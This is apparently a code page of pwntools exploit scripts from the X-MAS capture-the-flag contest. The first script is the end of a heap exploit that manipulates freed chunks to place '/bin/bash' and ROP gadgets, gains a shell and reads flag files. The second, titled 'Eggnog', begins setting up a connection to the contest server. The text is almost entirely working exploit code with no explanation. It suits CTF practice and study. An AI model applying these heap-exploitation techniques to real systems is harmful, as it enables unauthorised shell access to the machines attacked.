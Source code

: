```
  delete_chunk(0)

  size_now = 0x140 -0x8
  [ new_chunk(x, size_now, str(x)) for x in range(7) ] #cannot use already spaced chunk 7 ;)
  new_chunk(8, size_now, str(8))
  [ delete_chunk(x) for x in range(6,-1,-1)]
  delete_chunk(0)

  new_chunk(0, 0x140-0x8,"\x28")
  new_chunk(1, 0x200-0x8,"/bin/bash\x00")
  new_chunk(2, 0x200-0x8, gadget_list[gadgets])
  realloc_chunk(1, 0x30, "cat flag.txt\x00")
  r.sendline("cat flag.txt\x00")
  r.sendline("cat flag.txt\x00")
  r.sendline("cat /root/flag.txt\x00")
  r.sendline("cat /flag.txt\x00")
  r.sendline("cat /home/blindfolded/flag.txt\x00")
  r.recvuntil("X-MAS",timeout=10)
  rets=r.recvline()
  flag=open("flags_here", "a")
  flag.write("\nid{0}\n".format(gadgets))
  flag.write(rets)
  flag.write("\nid{0}".format(gadgets))
  flag.close()
  return

gadgets = int(sys.argv[1])
pwn(gadgets)
r.close()
```


### Eggnog

```
from pwn import *
import signal
import sys

def signal_handler(sig, frame):
        print('You pressed Ctrl+C!')
        sys.exit(0)
#signal.signal(signal.SIGINT, signal_handler)
#print('Press Ctrl+C')
# Init config
context.arch = 'amd64' 
#context.log_level = logging.DEBUG #with debug output
prog_name = './eggnog'
context.binary = prog_name 
## init of python
debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("challs.xmas.htsp.ro", 12010)
  online=True
elif(debug == 1):
  r = process(prog_name, aslr=False)
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def halt():
  while True:
    log.info( r.recvline() )

# or if you have issue, use interactive but instead you need to open it in another terminal
```
